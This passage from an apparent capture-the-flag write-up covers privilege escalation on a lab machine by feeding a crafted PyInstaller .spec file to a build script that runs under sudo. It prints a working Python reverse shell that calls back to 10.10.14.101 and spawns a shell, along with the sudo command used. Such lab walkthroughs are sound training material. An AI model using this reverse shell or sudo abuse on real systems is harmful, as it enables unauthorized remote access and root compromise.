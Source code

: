 All binaries are defined by full path, so we cannot get an easy win through PATH abuse.

Looking at segments where we might supply our own input, we can see under 'build' and 'make' options, we supply the file names following `pyinstaller`. Pyinstaller is used to compile easily-launchable binary files from python code. In this situation, pyinstaller is used so that the QReader code, written in python, can exist in a single executable for users to download. `Pyinstaller` compiling can be well customized through use of `.spec` files, which it uses to determine how to process your python script. More info can be found [here]](https://pyinstaller.org/en/stable/spec-files.html). Since we are running pyinstaller as root, perhaps we can define in the `.spec` file for root to do other actions. 

### Using the `make` script to produce a .spec template

For testing around, I used a python rev shell script. The python file's contents shouldn't matter, but I figured why not.

rev.py:
```python
import socket
import subprocess
import os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.101",8001))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty; pty.spawn("sh")
```

Running `make` once on this creates a .spec file for us to use and create our own executable:

```bash
tkeller@socket:/tmp/$ sudo /usr/local/sbin/build-installer.sh make rev.py 
384 INFO: PyInstaller: 5.6.2
384 INFO: Python: 3.10.6
387 INFO: Platform: Linux-5.15.0-67-generic-x86_64-with-glibc2.35
387 INFO: wrote /tmp/qreader.spec
<...SNIP...>

tkeller@socket:/tmp/$ cat qreader.spec 
# -*- mode: python ; coding: utf-8 -*-


block_cipher = None


a = Analysis(
    ['rev.py'],
    pathex=[],
    binaries=[],
    datas=[],
    hiddenimports=[],
    hookspath=[],
    hooksconfig={},
    runtime_hooks=[],
    excludes=[],
    win_no_prefer_redirects=False,
    win_private_assemblies=False,
    cipher=block_cipher,
    noarchive=False,
)
pyz = PYZ(a.pure, a.zipped_data, cipher=block_cipher)

exe = EXE(
    pyz,
    a.scripts,
```